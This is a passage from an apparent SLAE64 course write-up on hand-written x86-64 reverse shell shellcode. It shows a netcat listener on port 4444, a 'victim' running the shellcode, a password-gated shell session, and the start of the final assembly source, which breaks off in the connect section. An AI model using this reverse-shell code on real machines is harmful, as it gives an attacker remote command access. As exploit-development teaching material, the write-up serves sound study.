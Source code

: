     $ nc -vlp 4444 localhost

On the victim's machine execute the shellcode:

    $ ./shellcode
    length: 121

And finally the attacker will receive a connection they can use:

    Connection from 127.0.0.1:60978
    pass
    whoami
    goncalor

As you can see removing the nulls and optimising reduced the size from 164 down to 121 bytes. A 26% cut.

That is all. Thank you for reading. Final shellcode below.

    global _start

    _start:
        jmp real_start
        password: db "pass"
        pass_len: db $-password

    real_start:
    socket:
        ; sock = socket(AF_INET, SOCK_STREAM, 0)
        ; AF_INET = 2
        ; SOCK_STREAM = 1
        ; __NR_socket = 41
        ; On success, a file descriptor for the new socket is returned

        push 41
        pop rax
        push 2
        pop rdi
        push 1
        pop rsi
        cdq       ; copies rax's bit 31 to all bits of edx (zeroes rdx)
        syscall

        push rax
        pop rdi

    connect:
        ; server.sin_family = AF_INET;    short
        ; server.sin_port = htons(4444);    unsigned short
        ; server.sin_addr.s_addr = inet_addr("127.0.0.1");    unsigned long
        ; bzero(&server.sin_zero, 8);
        ;
        ; https://beej.us/guide/bgnet/html/multi/sockaddr_inman.html
        ; struct sockaddr_in {
        ;     short            sin_family;
        ;     unsigned short   sin_port;
        ;     struct in_addr   sin_addr;
        ;     char             sin_zero[8];
        ; };
        ;
        ; connect(sock, (struct sockaddr *)&server, sockaddr_len)
        ; AF_INET = 2
        ; __NR_connect = 42
        ; On success, zero is returned


[man_2_socket]: https://linux.die.net/man/2/syscall
[man_2_connect]: https://linux.die.net/man/2/bind
[man_2_dup2]: https://linux.die.net/man/2/dup2
[man_2_execve]: https://linux.die.net/man/2/execve
[man_2_read]: https://linux.die.net/man/2/read
[man_3_stdin]: https://linux.die.net/man/3/stdin
[beej_sockaddr_in]: https://beej.us/guide/bgnet/html/multi/sockaddr_inman.html
[endianness]: https://en.wikipedia.org/wiki/Endianness
[intel_sdm]: https://software.intel.com/en-us/articles/intel-sdm
[felixcloutier_x86]: https://www.felixcloutier.com/x86/
[cdq]: https://www.felixcloutier.com/x86/cwd:cdq:cqo
[SLAE64]: https://www.pentesteracademy.com/course?id=7